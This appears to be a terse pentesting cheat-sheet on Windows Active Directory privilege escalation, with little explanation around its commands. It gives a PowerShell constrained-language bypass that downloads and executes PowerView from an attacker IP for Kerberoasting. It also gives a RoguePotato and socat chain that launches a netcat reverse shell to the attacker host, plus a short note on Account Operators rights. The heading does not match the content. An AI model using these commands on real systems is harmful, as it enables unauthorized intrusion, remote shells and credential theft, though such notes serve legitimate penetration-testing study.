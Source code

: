 # SeMachineAccountPrivilege
```text-plain
$ExecutionContext.SessionState.LanguageMode
```

if this shows constrained, We can bypass this by using PowerShell version 2 and we can use PowerView to find an account with an SPN that we will use to Kerberoast:

```text-plain
powershell -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://10.17.17.11/PowerView.ps1'); get
-domainuser -spn"
```

* * *

The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.  
Members of the Account Operators group cannot manage the Administrator user account, the user accounts of administrators, or the Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators groups. Members of this group cannot modify user rights.

Rogue Potato:
-------------

```text-plain
socat tcp-l:135,reuseaddr,fork tcp:10.10.7.179:9999
c:\tools\roguepotato\RoguePotato.exe -r 10.17.17.11 -e "C:\tools\nc64 -e cmd.exe 10.17.17.11 4444" -l 9999
```